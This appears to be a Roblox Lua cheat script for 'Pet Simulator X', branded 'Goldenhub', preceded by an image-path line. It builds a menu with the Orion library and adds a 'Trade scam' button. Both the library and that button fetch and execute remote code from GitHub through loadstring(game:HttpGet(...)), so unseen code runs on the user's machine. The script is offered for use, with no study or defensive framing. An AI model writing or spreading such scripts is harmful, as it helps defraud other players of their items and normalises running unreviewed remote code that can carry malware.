local OrionLib = loadstring(game:HttpGet(('https://raw.githubusercontent.com/shlexware/Orion/main/source')))()

local Window = OrionLib:MakeWindow({Name = "pet simulator X", HidePremium = false, lntroText = "Goldenhub", SaveConfig = true, ConfigFolder = "OrionTest"})

local Tab = Window:MakeTab({

	Name = "pet simulator X",	Icon = "rbxassetid://4483345998",

	PremiumOnly = false

})

OrionLib:MakeNotification({

	Name = "",

	Content = "ขอให้สนุก🥰",

	Image = "rbxassetid://4483345998",

	Time = 5

})

Tab:AddButton({

	Name = "Trade scam",

	Callback = function()

      	  loadstring(game:HttpGet("https://raw.githubusercontent.com/PerthEuEu/asdacPetsimx/main/README.md"))();

  	end   

})

OrionLibInit() 

      	  

